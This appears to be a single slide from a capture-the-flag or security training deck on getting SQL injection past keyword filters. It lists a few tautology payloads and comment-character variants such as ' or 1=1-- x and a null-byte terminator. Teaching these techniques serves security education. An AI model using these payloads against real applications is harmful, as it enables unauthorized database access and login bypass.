

Basic Filter Bypasses
It's not common in the wild, but sometimes in CTFs you have SQL injection with filters blocking use of certain words.
Remember for SQL:
- You can use any true/false statement :
' or 1=1-- x
' or 'e'='e'-- p
'or(3)>(2)or'
- There are multiple comment characters
' or 1=1-- x
' or 1=1/*
' or 1=1<NUL>
This is just the tip of the filter evasion iceberg